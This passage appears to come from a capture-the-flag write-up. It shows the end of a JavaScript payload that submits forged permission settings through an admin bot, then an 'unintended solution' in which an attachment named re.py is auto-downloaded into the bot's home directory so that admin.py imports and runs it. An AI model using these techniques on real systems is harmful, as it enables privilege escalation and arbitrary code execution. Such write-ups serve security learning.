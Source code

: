```javascript
                ['user_perm', '8'],
                ['user_perm', '16'],
                ['user_perm', '64'],
                ['user_perm', '256'],
                ['user_perm', '512'],
                ['user_perm', '1024'],
                ['user_perm', user_perm],
                ['PostInterval', '0'],
                ['PostIntervalInc', '0'],
                ['MaxPostLen', '0'],
                ['ticket', data],
                ['save', 'Save']
            ])
        });
    }
);
```


### An Unintended Solution

The admin bot hasn't turned off the "auto download" option of chrome, so we can upload an attachment file and pass the link path to the bot and it would download the file automatically and save the file in `/home/admin`.

if we name the attachment file as `re.py`, the next time `admin.py` is executed, our script will be imported and executed :)

